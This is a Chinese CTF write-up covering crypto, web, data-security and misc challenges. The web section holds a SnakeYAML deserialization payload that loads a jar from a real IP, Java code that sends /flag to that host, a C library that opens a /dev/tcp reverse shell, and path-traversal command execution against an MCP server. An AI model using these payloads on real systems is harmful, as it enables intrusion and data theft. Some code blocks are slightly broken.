带小登们打了磐石行动，除了部分题比较抽象之外其实还挺有强度的，在此分享一下部分writeup :D

# Crypto

## AES_GCM_IV_Reuse

GCM 模式的 IV 复用问题，因为 IV 生成的值直接和明文异或成密文，所以只需要进行异或就可以抵消

```python
known = "b7eb5c9e8ea16f3dec89b6dfb65670343efe2ea88e0e88c490da73287c86e8ebf375ea1194b0d8b14f8b6329a44f396683f22cf8adf8"
target = "85ef58d9938a4d1793a993a0ac0c612368cf3fa8be07d9dd9f8c737d299cd9adb76fdc1187b6c3a00c866a20"

known_message = "The flag is hidden somewhere in this encrypted system."

def xor_bytes(hex1, hex2):
    b1 = bytes.fromhex(hex1)
    b2 = bytes.fromhex(hex2)
    return bytes(a ^ b for a, b in zip(b1, b2))

def xor_strings(s1, s2):
    b1 = bytes(s1, 'utf-8')
    b2 = bytes(s2, 'utf-8')
    return ''.join(chr(a ^ b) for a, b in zip(b1, b2))

ans = xor_bytes(known, target)
ans = xor_strings(ans.decode(), known_message)
print(ans)
```

## 多重 Caesar 密码

题目给定 flag 经过多重 Caesar 加密的密文'myfz{hrpa_pfxddi_ypgm_xxcqkwyj_dkzcvz_2025}'，根据 flag 包裹形式以及题目提示“flag 包含单词 caesar”，密文前四位 'myfz' 对应'flag'，花括号中六字母组合‘pfxddi’或'dkzcvz'对应'caesar'，首先测试靠前的字母组合'pfxddi'，根据对应字母偏移量可知，前四位分别偏移 7,13,5,19 位，而'pfxddi'对应'caesar'分别偏移 13,5,19,11,3,7 位，观察两组偏移量，易推测加密形式为一组偏移量的按字母循环加密，若不忽视花括号、下划线对偏移量的占用，则偏移量的周期为 9（若忽视，则周期为 7），偏移量循环为 7,13,5,19,11,3,17,_,_，还差两位未知，但前置偏移量都为质数，所以也不难推测。

```python
def affine_decrypto(a,b,n,cipher):
    plain_text=''_#接受解密后文本_
    plain_char=''_#处理文本字符解密的中间变量字符_
    for chars in cipher:_#遍历解密前文本_
        if 'a'<=chars<='z':
            plain_char=chr(((ord(chars)-ord('a'))-b)*a%n+ord('a'))
        elif 'A'<=chars<='Z':
            plain_char=chr(((ord(chars)-ord('A'))-b)*a%n+ord('A'))
        else: _#若字符为非字母字符即逗号空格之类，则原封不动_
            plain_char=chars
        plain_text+=plain_char
    return plain_text

text = "myfz{hrpa_pfxddi_ypgm_xxcqkwyj_dkzcvz_2025}"
round=[7,13,5,19,11,3,17,23,2]
i=0
for char in text:
    if char.isalpha():
        print(affine_decrypto(1,round[i%9],26,char),end='')
        i+=1
    else:
        print(char,end='')
        i+=1
```

# Web

## ezDecryption

第一关：在 html 里找到隐藏的“2025”作为验证码

第二关：抓包，直接修改步骤为"step3"，跳过第二关

第三关：在 js 里面找到验证信息，一个是 base64 一个是 jsfuck，jsfuck 直接 console 运行得到"panshi"，base64 解密得到"2oZ5"，拼接上传得到 flag

flag{d1g1t4l_l0ck_br34k3r_2025}

## ezyaml



注意到 snakeyaml 版本是 1.33，适用 CVE-2022-1471；但是有个黑名单，可以参考 [https://mp.weixin.qq.com/s/2i6Q9Ob7n0cSxuj9Rob8Uw#at](https://mp.weixin.qq.com/s/2i6Q9Ob7n0cSxuj9Rob8Uw#at) 的方式绕过。说是不出网，尝试了一下其实可以访问到 dnslog：

```
%TAG !      tag:yaml.org,2002:javax.script.ScriptEngin
%TAG !---!  tag:yaml.org,2002:java.net.URLClass
---
!eManager [!---!Loader [[!!java.net.URL ["http://l1gryk.dnslog.cn"]]]]
```

参考 [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)，修改恶意代码如下：

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.util.List;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.net.*;
import java.io.*;
import java.nio.charset.StandardCharsets;

class ExecCommand {
    public static String execCommand(String command) throws Exception {
        Process process = Runtime.getRuntime().exec(command);
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(process.getInputStream()));
        BufferedReader stdError = new BufferedReader(new InputStreamReader(process.getErrorStream()));
        StringBuilder output = new StringBuilder();
        String s;

        while ((s = stdInput.readLine()) != null) {
            output.append(s).append("\n");
        }

        StringBuilder error = new StringBuilder();
        while ((s = stdError.readLine()) != null) {
            error.append(s).append("\n");
        }

        int exitCode = process.waitFor();
        if (exitCode == 0) {
            return output.toString();
        } else {
            return "Error executing command:\n" + error.toString();
        }
    }
}

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    public AwesomeScriptEngineFactory() {
        try {
            String output = ExecCommand.execCommand("cat /flag");
            String base64Encoded = Base64.getUrlEncoder().encodeToString(output.getBytes());
            String urlEncoded = URLEncoder.encode(base64Encoded, "UTF-8");
            URL url = new URL("http://106.14.34.211:51820/" + urlEncoded);
            HttpURLConnection conn = (HttpURLConnection) url.openConnection();
            try (BufferedReader br = new BufferedReader(new InputStreamReader(conn.getInputStream(), "UTF-8"))) {
                String line;
                while ((line = br.readLine()) != null) System.out.println(line);
            }
            conn.disconnect();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

打成 jar 包放到服务器上请求执行即可：

```yaml
%TAG !      tag:yaml.org,2002:javax.script.ScriptEngin
%TAG !---!  tag:yaml.org,2002:java.net.URLClass
---
!eManager [!---!Loader [[!!java.net.URL ["http://106.14.34.211:51820/yaml-payload.jar"]]]]
```



flag{AfCykvza6px9SZwuo3RXPe2DKMIBQl8m}

## jaba-ez



根据 jar 包逆向得出的黑名单和白名单，发现对 jndi 已经过滤了，而且对 ldap 和 rmi 等也进行了过滤，且对 http 等内容都进行了过滤，远程 jndi 注入虽然仍然存在可能性，但是比较复杂了

继续看代码发现特别像若依框架的定时任务 rce 的代码，继续看，发现可以使用若依最新的 rce 方法进行 rce；加载动态链接库实现 rce，先构建一个动态链接库；

```c
#include <stdlib.h>

__attribute__((constructor))
void autorun_on_load() {
    system("bash -c \"bash -i >& /dev/tcp/xx.xx.xxx.xx/xxxx 0>&1\"");
}
```

```bash
gcc -shared -fPIC -o com.jabaez.FLAG.so linux-so.c
```

构建成功以后，将文件名修改为 `com.jabaez.FLAG.so` ，因为存在白名单，所以需要对白名单进行绕过，将文件名修改为白名单中的名称进行绕过；



添加定时任务



执行定时任务，正常执行任务（实在是太不稳定了）



执行定时任务后拿到反弹 shell



flag{7PvEXHMUylzuTRFGw13bIksf6qmVQdWK}

## web-ez_py

开始给个网址啥也扫不出来；比赛结束前 50 分钟更新个提示，说是 mcp server.py，直接搜到 [FastMCP](https://gofastmcp.com)。研究了半天怎么用有一个/sse 端点，连上就是比较简单（抽象）的 python waf 了，随便绕过一下就行。

```python
"""
Run from the repository root:
    uv run examples/snippets/clients/streamable_basic.py
"""

import asyncio

from mcp import ClientSession
from mcp.client.sse import sse_client
from mcp.client.streamable_http import streamablehttp_client


async def main():
    # Connect to a streamable HTTP server
    async with sse_client("http://pss.idss-cn.com:23124/sse") as (
        read_stream,
        write_stream,
    ):
        # Create a session using the client streams
        async with ClientSession(read_stream, write_stream) as session:
            # Initialize the connection
            await session.initialize()
            # List available tools
            tools = await session.list_tools()
            # print(tools)
            # print(f"Available tools: {[tool.name for tool in tools.tools]}")
            #meta=None nextCursor=None tools=[Tool(name='file_reader', description='Read files from the system 过滤去除路径穿越', inputSchema={'properties': {'path': {'title': 'Path', 'type': 'string'}}, 'required': ['path'], 'type': 'object'}, annotations=None, outputSchema={'properties': {'result': {'title': 'Result', 'type': 'string'}}, 'required': ['result'], 'title': '_WrappedResult', 'type': 'object', 'x-fastmcp-wrap-result': True}),
            # Tool(name='system_cmd', description='Execute system commands (requires authentication)', inputSchema={'properties': {'cmd': {'title': 'Cmd', 'type': 'string'}, 'token': {'default': '', 'title': 'Token', 'type': 'string'}}, 'required': ['cmd'], 'type': 'object'}, annotations=None, outputSchema={'properties': {'result': {'title': 'Result', 'type': 'string'}}, 'required': ['result'], 'title': '_WrappedResult', 'type': 'object', 'x-fastmcp-wrap-result': True})]
            #第一步 用../绕过server的过滤 看到源码和token
            # result = await session.call_tool("file_reader", {"path": "app/ser../ver.py"})
            # print(result)
            #meta=None content=[TextContent(type='text', text="Result: ['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', '.dockerenv', 'app']\n", annotations=None)] isError=False structuredContent={'result': "Result: ['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', '.dockerenv', 'app']\n"}
            #第二步 执行命令去找flag 在tmp里
            result= await session.call_tool("system_cmd", {"cmd": "__import__('os').listdir('/tmp')","token":"admin_token_12345"})
            #meta=None content=[TextContent(type='text', text="Result: ['flag.txt', 'sandbox_run.py']\n", annotations=None)] isError=False structuredContent={'result': "Result: ['flag.txt', 'sandbox_run.py']\n"}
            #第三步 读取flag
            result= await session.call_tool("system_cmd", {"cmd": "open('/tmp/flag.txt', 'r').read()","token":"admin_token_12345"})

            print(result)
            #flag:flag{QrZvt5ewJNLyiubSPYlKfOspWg32FBmV}


if __name__ == "__main__":
    asyncio.run(main())
```

# 数据安全

## SQLi_Detection

```sql
sqli_keywords = [
    "UNION SELECT", "DROP TABLE", "OR 1=1", "' OR '", "\" OR \"", "AND '1'='1",
    "UPDATE users SET role='admin'", "INSERT INTO admin", "database(),user()"
]

sqli_count = 0
with open("logs.txt", "r", encoding="utf-8") as f:
    for line in f:
        line_lower = line.strip().lower()
        if any(keyword.lower() in line_lower for keyword in sqli_keywords):
            sqli_count += 1

print(f"flag{{{sqli_count}}}")
```

## AES_Custom_Padding

```python
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

def remove_custom_padding(data: bytes) -> bytes:
    i = len(data) - 1
    while i >= 0 and data[i] == 0x00:
        i -= 1
    if i < 0 or data[i] != 0x80:
        raise ValueError("Invalid padding")
    return data[:i]

def main():
    key = bytes.fromhex("0123456789ABCDEF0123456789ABCDEF")
    iv = bytes.fromhex("000102030405060708090A0B0C0D0E0F")

    with open("cipher.bin", "rb") as f:
        b64_cipher = f.read()
    cipher_bytes = base64.b64decode(b64_cipher)

    backend = default_backend()
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=backend)
    decryptor = cipher.decryptor()
    decrypted = decryptor.update(cipher_bytes) + decryptor.finalize()

    plaintext = remove_custom_padding(decrypted)

    print("明文（bytes）：", plaintext)
    print("明文（utf-8解码）：", plaintext.decode("utf-8", errors="replace"))

if name == "__main__":
    main()
```

## DB_Log

```python
import hashlib
import re
from datetime import datetime

部门到数据表的映射
department_tables = {
    'HR': ['employee_info', 'salary_data', 'personal_info'],
    'Finance': ['financial_reports', 'budget_data', 'payment_records'],
    'IT': ['system_logs', 'server_data', 'network_config'],
    'Sales': ['customer_data', 'sales_records', 'product_info']
}

敏感字段
sensitive_fields = ['salary', 'ssn', 'phone', 'email', 'address']
解析用户权限文件
user_permissions = {}
with open('user_permissions.txt', 'r') as f:
    for line in f:
        parts = line.strip().split(', ')
        user_id, username, department, tables, operations, role = parts
        user_permissions[username] = {
            'department': department,
            'tables': tables.split(';'),
            'operations': operations.split(';'),
            'role': role
        }

解析数据库操作日志文件
logs = []
with open('database_logs.txt', 'r') as f:
    for line in f:
        parts = line.strip().split(' ', 3)
        log_id, date, time, rest = parts
        username, operation_details = rest.split(' ', 1)
        operation, details = operation_details.split(' ', 1) if ' ' in operation_details else (operation_details, '')
        timestamp = f"{date} {time}"
        logs.append({
            'id': int(log_id),
            'timestamp': timestamp,
            'username': username,
            'operation': operation,
            'details': details
        })

收集违规记录
violations = []
for log in logs:
    username = log['username']
    if username not in user_permissions:
        continue  # 用户不在权限列表中，跳过

    user_info = user_permissions[username]
    department = user_info['department']
    role = user_info['role']
    operation = log['operation']
    details = log['details']

    # 解析时间，检查规则3
    log_time = datetime.strptime(log['timestamp'], '%Y-%m-%d %H:%M:%S')
    hour = log_time.hour
    if 0 <= hour < 5:  # 0:00-4:59为非工作时间
        violations.append((3, log['id']))

    if operation == 'QUERY':
        # 使用正则表达式解析表名和字段
        match = re.match(r'(\w+)( operation=\w+)?( field=(\w+))?', details)
        if match:
            table = match.group(1)
            field = match.group(4) if match.group(4) else None

            # 规则1：跨部门数据访问
            if table not in department_tables.get(department, []):
                violations.append((1, log['id']))

            # 规则2：敏感字段访问
            if field in sensitive_fields:
                violations.append((2, log['id']))

    elif operation == 'BACKUP':
        # 提取表名
        table = details.strip()
        # 规则4：非管理员执行备份
        if role != 'admin':
            violations.append((4, log['id']))
        # 规则1：跨部门数据访问
        if table not in department_tables.get(department, []):
            violations.append((1, log['id']))

按日志ID排序违规记录
violations.sort(key=lambda x: x[1])

生成违规记录字符串
violation_str = ','.join(f"{rule}-{log_id}" for rule, log_id in violations)

计算MD5哈希
md5_hash = hashlib.md5(violation_str.encode()).hexdigest()

输出结果
print("违规记录:", violation_str)
print(f"flag{{{md5_hash}}}")
```

## JWT_Weak_Secret

```python
import jwt

HS256_KEYS_FILE = "wordlist.txt"
RS256_PUBKEY_FILE = "public.pem"
TOKENS_FILE = "tokens.txt"

# 读取密钥字典
with open(HS256_KEYS_FILE, "r") as f:
    hs256_keys = [line.strip() for line in f if line.strip()]

# 读取 RS256 公钥
with open(RS256_PUBKEY_FILE, "r") as f:
    rs256_pubkey = f.read()

valid_admin_tokens = []

# 给每个 token 编号（从 1 开始）
with open(TOKENS_FILE, "r") as f:
    for idx, line in enumerate(f, start=1):
        token = line.strip()
        if not token:
            continue

        try:
            header = jwt.get_unverified_header(token)
            alg = header.get("alg", "")
        except:
            continue

        payload = None

        if alg == "HS256":
            for key in hs256_keys:
                try:
                    payload = jwt.decode(token, key, algorithms=["HS256"])
                    break
                except jwt.InvalidTokenError:
                    continue

        elif alg == "RS256":
            try:
                payload = jwt.decode(token, rs256_pubkey, algorithms=["RS256"])
            except jwt.InvalidTokenError:
                continue
        else:
            continue

        if not payload:
            continue

        # 更健壮的管理员判断逻辑
        admin_field = payload.get("admin")
        role_field = str(payload.get("role", "")).lower()

        is_admin = (
            str(admin_field).lower() == "true"
            or role_field in ("admin", "superuser")
        )

        if is_admin:
            valid_admin_tokens.append(idx)

# 输出 flag
valid_admin_tokens.sort()
flag = f"flag{{{':'.join(map(str, valid_admin_tokens))}}}"
print(flag)
```

## ACL_Allow_Count

```python
import ipaddress

def parse_rule(line):
    action, proto, src, dst, dport = line.strip().split()
    return {
        "action": action,
        "proto": proto,
        "src": src,
        "dst": dst,
        "dport": dport
    }

def match_ip(rule_ip, traffic_ip):
    if rule_ip == "any":
        return True
    if "/" in rule_ip:
        return ipaddress.IPv4Address(traffic_ip) in ipaddress.IPv4Network(rule_ip)
    return rule_ip == traffic_ip

def match_port(rule_port, traffic_port):
    return rule_port == "any" or rule_port == traffic_port

def match_protocol(rule_proto, traffic_proto):
    return rule_proto == "any" or rule_proto == traffic_proto

def matches(rule, traffic):
    return (
        match_protocol(rule["proto"], traffic["proto"]) and
        match_ip(rule["src"], traffic["src"]) and
        match_ip(rule["dst"], traffic["dst"]) and
        match_port(rule["dport"], traffic["dport"])
    )

# 读取规则
with open("rules.txt") as f:
    rules = [parse_rule(line) for line in f if line.strip()]

# 统计 allow 流量条数
allow_count = 0

# 处理流量日志
with open("traffic.txt") as f:
    for line in f:
        proto, src, dst, dport = line.strip().split()
        traffic = {
            "proto": proto,
            "src": src,
            "dst": dst,
            "dport": dport
        }

        for rule in rules:
            if matches(rule, traffic):
                if rule["action"] == "allow":
                    allow_count += 1
                break  # first match only

# 输出结果
print(f"flag{{{allow_count}}}")
```

## Brute_force_detection

```python
from collections import defaultdict, deque
from datetime import datetime, timedelta


def parse_line(line):
    parts = line.strip().split()
    if len(parts) < 5:
        return None
    dt_str = parts[0] + " " + parts[1]
    try:
        dt = datetime.strptime(dt_str, "%Y-%m-%d %H:%M:%S")
    except:
        return None
    result = parts[2]
    user_part = parts[3]
    ip_part = parts[4]
    if not (user_part.startswith("user=") and ip_part.startswith("ip=")):
        return None
    user = user_part[5:]
    ip = ip_part[3:]
    return dt, result, user, ip


def main():
    logs = []
    for line in open("auth.log"):
        logs.append(line if line.strip() else line)
    # 记录满足条件的IP集合
    suspicious_ips = set()
    # 对每个IP+user，维护失败尝试的时间队列
    # key=(ip,user) -> deque of (datetime of fail attempts)
    fail_deques = defaultdict(deque)
    # 还需记录上一次的状态，方便检查紧接的成功
    # key=(ip,user) -> 最近5次连续失败完成标记(是否等待下一次成功)
    waiting_for_success = dict()

    for line in logs:
        parsed = parse_line(line)
        if not parsed:
            continue
        dt, result, user, ip = parsed
        key = (ip, user)
        if key in waiting_for_success and waiting_for_success[key]:
            # 等待第五次失败后紧接成功
            if result == "SUCCESS":
                # 符合模式，记录ip
                suspicious_ips.add(ip)
                # 清空状态，继续检测后面的
                waiting_for_success[key] = False
                fail_deques[key].clear()
            elif result == "FAIL":
                # 中断，连续成功没有出现，重置等待状态
                waiting_for_success[key] = False
                # 失败则继续添加进fail队列用于后续连续失败的检查
                # 延续下面fail逻辑
                # 注意题目未说明这种情况应如何处理，可以按重置处理
                pass

        if result == "FAIL":
            # 添加失败时间，保持队列只保存10分钟内连续失败
            dq = fail_deques[key]
            dq.append(dt)
            # 清理队列中超过10分钟的失败尝试
            ten_min_ago = dt - timedelta(minutes=10)
            while dq and dq[0] < ten_min_ago:
                dq.popleft()
            # 检查是否满足连续5次失败的条件
            if len(dq) >= 5:
                # 额外检查失败的时间是否连续，题目没明确失败需要连续时间，认为只要5次失败时间在10分钟内即可
                # 设置等待下一次成功标志
                waiting_for_success[key] = True
        elif result == "SUCCESS":
            # 如果不是紧接在5次失败后，成功不影响fail_deques
            # 清理fail_deques超过10分钟的数据避免污染
            dq = fail_deques.get(key, deque())
            ten_min_ago = dt - timedelta(minutes=10)
            while dq and dq[0] < ten_min_ago:
                dq.popleft()
            # 此成功不能重置队列，留给后续计算
            # 如果没在等待，那也无动作

    # 输出结果，IP排序从小到大（按点分四段数字排序）
    def ip_key(ip_str):
        return tuple(int(x) for x in ip_str.split("."))

    sorted_ips = sorted(suspicious_ips, key=ip_key)
    print(f"flag{{{':'.join(sorted_ips)}}}")


if __name__ == "__main__":
    main()
```

# MISC

## Derderjia

流量包可以看到 http 访问到了 server_key.txt，里面是 tls 过程，下载下来后导入 wireshark 可以解密得到 upload

